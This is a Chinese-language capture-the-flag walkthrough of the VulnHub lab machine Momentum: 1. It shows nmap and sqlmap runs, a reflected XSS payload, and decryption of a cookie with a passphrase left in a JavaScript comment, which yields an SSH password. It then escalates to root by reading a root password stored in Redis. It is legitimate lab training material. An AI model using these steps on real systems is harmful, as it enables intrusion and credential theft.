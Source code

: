 靶机地址：[Momentum: 1 ~ VulnHub](https://vulnhub.com/entry/momentum-1,685/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.46
sudo nmap -p22,80 -sV 192.168.1.46
# 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```
访问web服务看看，除了首页还有图片详情，链接为
```
http://192.168.1.46/opus-details.php?id=visor
```
尝试对 `id` 参数进行SQL注入尝试，失败了
```Shell
sqlmap -u "http://192.168.1.46/opus-details.php?id=visor" -p "id"
```
再试试XSS
```
http://192.168.1.46/opus-details.php?id=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```
成功了，弹出一段cookie
```
cookie=U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt
```
查看网页源码，其中 `main.js` 中包含如下一段注释
```JavaScript
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```
使用如下代码尝试对cookie进行解密
```html
<html>
<head>
<script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.1.1/crypto-js.min.js"></script>
</head>
<body>
<div id="result"></div>
<script>
	var data = "U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt";
	var bytes = CryptoJS.AES.decrypt(data, 'SecretPassphraseMomentum');
	var decryptedData = bytes.toString(CryptoJS.enc.Utf8);
	document.getElementById("result").innerHTML = decryptedData;
</script>
</body>
</html>
```
得到如下结果
```
auxerre-alienum##
```
尝试SSH，最终使用账号 `auxerre` 和密码 `auxerre-alienum##` 成功登录系统
尝试提权，一番尝试都不行，回到信息收集，查看服务运行状态
```Shell
ss -antlp
# LISTEN               0                    128                                      127.0.0.1:6379                                    0.0.0.0:*
```
发现6379端口是打开的
```Shell
redis-cli
> INFO Keyspace
> KEYS *
# 1) "rootpass"
> GET "rootpass"
# "m0mentum-al1enum##"
```
尝试su
```Shell
su
# m0mentum-al1enum##
```
提权成功